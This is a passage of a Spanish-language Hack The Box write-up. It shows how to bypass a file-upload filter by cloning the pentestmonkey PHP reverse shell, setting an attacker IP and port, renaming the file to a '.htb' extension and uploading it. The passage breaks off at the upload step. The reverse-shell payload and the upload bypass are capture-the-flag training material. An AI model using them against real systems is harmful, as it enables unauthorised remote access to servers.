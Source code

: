 ¡Ahí está! Solamente acepta archivos con terminación **.htb** y dichos archivos deben ser hechos en **PHP**, lo que podemos hacer es cargar un Payload para poder conectarnos de manera remota. Busquemos uno en internet:

Aqui un Payload:
* https://github.com/pentestmonkey/php-reverse-shell


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="Acceso">Ganando Acceso a la Máquina</h2>

En el link anterior hay un Payload hecho en **PHP** que debemos modificar metiendo nuestra IP y un puerto al que debemos conectarnos, hagámoslo por pasos:

* Descargando Payload:
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell.git                         
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 837.00 KiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```

* Ahora modificamos el Payload, puedes eliminar lo demás, no es necesario:
```bash
$VERSION = "1.0";
$ip = 'Tu_IP';  // CHANGE THIS
$port = Puerto_Que_Quieras;       // CHANGE THIS
$chunk_size = 1400;
```

* Bien, vamos a renombrarlo para agregarle la extensión **.htb**:
```bash
mv php-reverse-shell.php LocalRS.htb
```

* Una vez ya modificado, lo subimos:

<p align="center">